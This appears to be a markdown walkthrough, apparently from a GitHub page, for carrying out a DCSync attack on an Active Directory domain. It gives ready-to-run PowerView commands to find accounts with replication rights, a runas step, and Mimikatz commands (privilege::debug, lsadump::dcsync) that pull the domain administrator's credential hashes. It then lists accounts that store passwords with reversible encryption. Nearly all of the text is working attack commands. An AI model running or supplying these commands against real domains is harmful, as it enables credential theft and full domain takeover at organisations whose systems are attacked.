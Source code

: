 ```yaml
---
legal-banner: true
---
```


### **Step 1. Define User’s SID and Check Replication Rights**

1. Import the PowerView module:  
   ```powershell
   Import-Module PowerView
   ```

2. View the group membership of a user (e.g., `adunn`):  
   ```powershell
   Get-DomainUser -Identity [USERNAME] | select samaccountname, objectsid, memberof, useraccountcontrol | fl
   ```

3. Define the user’s SID (Security Identifier). Replace the placeholder with the actual SID of the user you are investigating:  
   ```powershell
   $sid = "S-1-5-21-1234567890-9876543210-4567891230-5678"
   ```

4. Check if the user has replication rights for the specified domain:  
   ```powershell
   Get-ObjectAcl -Identity "DC=EXAMPLE,DC=LOCAL" -ResolveGUIDs |
       Where-Object { ($_.ObjectAceType -match 'Replication-Get') } |
       Where-Object { $_.SecurityIdentifier -match $sid } |
       Select-Object AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType | fl
   ```

### **Step 2. Performing the DCSync Attack**

5. Open a PowerShell session as the user with DCSync privileges:  
   ```bash
   runas /netonly /user:EXAMPLE\[USERNAME] powershell
   ```

6. Run Mimikatz:  
   ```bash
   .\mimikatz.exe
   ```

7. Enable debug privileges:  
   ```bash
   mimikatz # privilege::debug
   ```

8. Execute DCSync:  
   ```bash
   mimikatz # lsadump::dcsync /domain:EXAMPLE.LOCAL /user:EXAMPLE\administrator
   ```

### **Step 3. Additional Enumeration**

9. Check if any user accounts have the reversible encryption option enabled:  
   ```powershell
   Get-DomainUser -Identity * | 
       ? { $_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*' } | 
       select samaccountname, useraccountcontrol
   ```

10. Enumerate accounts with reversible encryption using `Get-ADUser`:  
   ```powershell
   Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
   ```
